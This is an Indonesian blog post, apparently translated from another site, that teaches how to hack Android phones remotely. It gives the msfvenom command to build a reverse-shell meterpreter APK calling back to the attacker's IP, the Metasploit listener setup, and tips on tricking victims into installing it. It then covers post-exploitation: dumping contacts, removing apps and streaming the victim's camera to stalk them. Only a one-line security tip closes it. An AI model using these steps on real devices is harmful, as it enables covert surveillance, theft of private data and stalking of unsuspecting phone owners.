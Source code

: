 ```yaml
---
layout: post
post_image: https://lh3.googleusercontent.com/-rxGLOCRjIps/YYiUiLESssI/AAAAAAAAHec/faFJ7Uhm8_8Npi45FrYeYZvcin7miaXEwCLcBGAsYHQ/hack-android.webp
title: Hack ponsel Android dari jarak jauh
post_id: 1
author_name: Unang
author_id: 1
featured: true
date: 2021-10-11 8:14:30 +0600
tags: [internet, hack, android]
categories: [Tutorial]
excerpt_separator: <!--more-->
---
```


Kita akan menggunakan msfvenom untuk membuat payload dan<!--more--> menyimpannya sebagai file apk. Setelah menghasilkan payload, kita perlu menyiapkan listener ke framework Metasploit. Setelah target mengunduh dan menginstal apk jahat, penyerang dapat dengan mudah mendapatkan kembali sesi meterpreter di Metasploit. Penyerang perlu melakukan beberapa rekayasa sosial untuk menginstal apk di perangkat seluler korban.

## Tutorial langkah demi langkah

    
### Menghasilkan Payload dengan msfvenom

Pertama, jalankan Kali Linux sehingga kita dapat menghasilkan file apk sebagai aplikasi berbahaya. Kita perlu memeriksa IP publik kita yang ternyata '192.168.0.112'. Kamu juga dapat meretas perangkat Android melalui Internet dengan menggunakan IP Publik/Eksternal kamu di LHOST dan dengan port forwarding.

![kali](/images/kali.png)

Setelah mendapatkan IP host publik Anda, gunakan alat msfvenom yang akan menghasilkan payload untuk menembus perangkat Android. Ketik perintah:
<pre>
# msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4444 R > ehacking.apk
</pre>
## Dimana:
- <b>-p</b> menunjukkan jenis payload.
- <b>android/meterpreter/reverse_tcp</b> menentukan shell meterpreter terbalik akan datang dari perangkat Android target.
- <b>LHOST</b> adalah <b>IP Publik</b> Kamu.
- <b>LPORT</b> diatur sebagai listening port.
- <b>R> /var/www/html</b> akan memberikan output langsung di server Apache.
- <b>apk</b> adalah nama akhir dari hasil akhir.

Ini akan memakan waktu untuk menghasilkan file apk hampir sepuluh ribu byte.

![kali-linix](/images/kali2.png)

<br />

# Meluncurkan Serangan

![kali-linux](/images/kali3.png)

Semua tampaknya sudah siap, sekarang jalankan <b>msfconsole</b>. Gunakan <b>exploit multi/handler</b>, atur <b>payload</b> sama seperti yang dihasilkan sebelumnya, atur nilai <b>LHOST</b> dan <p>LPORT</p> sama seperti yang digunakan dalam payload dan terakhir ketik <b>exploit</b> untuk meluncurkan serangan.
![kali-linux](/images/kali4.png)


Dalam skenario kehidupan nyata, beberapa teknik rekayasa sosial dapat digunakan untuk membiarkan target mengunduh file apk berbahaya. Untuk demonstrasi kita hanya tinggal mengakses mesin penyerang untuk mengunduh file di perangkat Android.
![kali-linux](/images/kali5.jpg)

Setelah berhasil mengunduhnya, pilih aplikasi yang akan diinstal.

Sejauh ini, opsi penginstallan sering terlihat ketika kita mencoba menginstal beberapa aplikasi pihak ketiga dan biasanya pengguna tidak akan ragu untuk mengizinkan instalasi dari sumber yang tidak dikenal.
![kali-linux](/images/kali6.jpg)

Setelah pengguna menginstal aplikasi dan menjalankannya, sesi <b>meterepreter</b> akan segera dibuka di sisi penyerang.
![kali-linux](/images/kali7.png)

<br />
    {% include iklan-artikel.html %}
# Post Exploitation

Ketik <b>"background"</b> dan kemudian <b>"sessions"</b> untuk membuat daftar semua sesi dari mana Anda dapat melihat semua IP yang terhubung ke mesin.
![kali-linux](/images/kali8.png)


Kamu dapat berinteraksi dengan sesi apa pun dengan mengetik <b>sessions -i [session ID]</b>
Setelah memasuki sesi, ketik <b>"help"</b> untuk membuat daftar semua perintah yang dapat kita ajukan di sesi ini.


Kamu dapat melihat beberapa perintah sistem file yang berguna saat Anda mencoba mencari beberapa informasi atau data sensitif. Dengan menggunakan ini, Kamu dapat dengan mudah mengunduh atau mengunggah file atau informasi apa pun
![kali-linux](/images/kali9.png)

Kamu juga akan menemukan beberapa perintah jaringan termasuk portfwd dan route
![kali-linux](/images/kali10.png)

Beberapa perintah sistem yang kuat untuk mendapatkan ID pengguna, mendapatkan shell atau mendapatkan informasi sistem yang lengkap.

Ketik "app_list" dan itu akan menampilkan semua aplikasi yang diinstal pada perangkat.
![kali-linux](/images/kali11.png)

Kita juga memiliki kekuatan untuk mencopot pemasangan aplikasi apa pun dari perangkat Android.
![kali-linux](/images/kali12.png)


# Mengekstrak Kontak dari Perangkat Android

Sekarang kita ekstrak beberapa kontak dari perangkat target dengan mengetik "dump" dan tab ganda
![kali-linux](/images/kali13.png)

Ini akan menampilkan semua opsi untuk mengekstrak dari perangkat. Ketik "dump_contacts" dan enter
![kali-linux](/images/kali14.png)

Ini akan mengekstrak semua kontak dari perangkat Android dan akan menyimpannya di direktori lokal kita. Untuk melihat file ini ketik “ls” dan “cat [file_name]”
![kali-linux](/images/kali15.png)

Ini akan menunjukkan konten file kontak yang sebelumnya diunduh dari perangkat target. Informasi ini sangat sensitif dan dapat dimanfaatkan oleh peretas.

# Mengendalikan Kamera Android

Dengan mengetik perintah <b>"webcam_stream"</b> kamu bisa menyusup dan mengamati melalui kamera android si korban, dan menguntitnya.
![kali-linux](/images/kali16.webp)

# Waspada... Android Terbaru pun Masih Lancar Terkena Serangan.

Handphone xiaomi MI10 dengan OS Android 10 Masih Lancar terkena serangan, Untuk kamu yang masih sering klik website tidak jelas yang masuk ke sms atau via whatsapp sebaiknya berhati-hati dari sanalah aplikasi ini terinstall diam-diam di android kamu.
![kali-linux](/images/kali17.webp)

![kali-linux](/images/kali18.webp)


Ada masih banyak lagi perintah yang tersedia di <b>meterpreter</b>. Lebih lanjut coba jelajahi dan pelajari apa yang bisa kita lakukan dengan perangkat Android. Ini menyimpulkan bahwa kita telah berhasil menembus perangkat Android menggunakan Kali Linux dan Metasploit-Framework.


Tip sehat untuk mengamankan perangkat Android kamu adalah dengan <b>tidak menginstal aplikasi apa pun dari sumber yang tidak dikenal</b>, bahkan jika Anda benar-benar ingin menginstalnya, cobalah untuk membaca dan memeriksa kode sumbernya untuk mengetahui apakah file ini berbahaya atau tidak.



<small>Artikel ini awalnya diterbitkan di [blog ehacking.](https://www.ehacking.net/2020/04/how-to-hack-an-android-phone-using-metasploit-msfvenom-in-kali-linux.html)</small>
